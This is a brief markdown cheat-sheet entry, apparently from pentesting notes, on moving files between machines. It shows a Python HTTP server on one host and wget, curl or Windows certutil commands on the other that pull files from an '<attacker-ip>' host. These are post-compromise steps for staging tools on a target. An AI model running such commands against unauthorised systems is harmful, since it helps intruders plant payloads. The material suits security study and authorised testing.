 
## Python server for file transmission 
If you need to transfer a file from one machine to another, you can follow this process:

#### Linux

```bash 
# machine 1
python3 -m http.server 80
# machine 2
wget http://<attacker-ip>:<port>/<file>
# or
curl http://<attacker-ip>:<port>/<file> -o <output-file>
```

#### Windows

```bash 
# Linux machine 
python3 -m http.server 80

# Windows machine 
certutil -urlcache -f http://<attacker-ip>:<port>/<file> <new_file_name>
```

